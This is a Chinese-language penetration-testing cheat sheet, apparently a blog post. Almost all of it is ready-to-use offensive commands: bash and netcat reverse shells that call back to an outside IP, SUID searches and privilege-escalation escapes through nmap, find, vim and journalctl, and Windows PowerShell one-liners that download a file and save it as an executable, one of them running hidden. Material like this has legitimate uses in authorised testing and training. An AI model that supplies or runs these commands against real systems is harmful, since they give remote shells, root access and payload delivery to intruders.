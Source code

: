```yaml
---
layout: post
title: Pentest Note / CheatSheet
---
```


## Linux

### 反弹shell

bash

```
bash -i >& /dev/tcp/10.10.10.2/1337 0>&1
```

nc

```
nc -e /bin/bash -t 10.10.10.2 1337
```

python非标准shell到标准shell

```
python -c "import pty;pty.spawn('/bin/bash')"
```

### 本地提权

#### suid

参考资料

+ [GTFOBins](https://gtfobins.github.io/)
+ [PEASS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

查找拥有suid权限位的文件

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
sudo -l
```

nmap

```
nmap --interactive
nmap> !sh
sh-3.2# whoami
root

msf exploit/unix/local/setuid_nmap

echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

find

```
touch test
find test -exec whoami \;
```

vim

```
:set shell=/bin/sh
:shell

sudo vim -c '!sh'
```

journalctl

```
journalctl
!/bin/bash
```

## Windows

### 下载执行

在某些低权限情况下只能使用这个命令，使用`-UseBasicParsing`避免调用IE解析DOM

`Invoke-WebRequest -Uri $url -OutFile $outfile -UseBasicParsing`

`powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://example.com/1.jpg','C:\1.exe')`

替代bitsadmin

`Start-BitsTransfer -Source $file -Destination C:\1.exe –Asynchronous`

### 本地提权

#### 可用工具

```
msf post/multi/recon/local_exploit_suggester 
https://github.com/bitsadmin/wesng
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
```
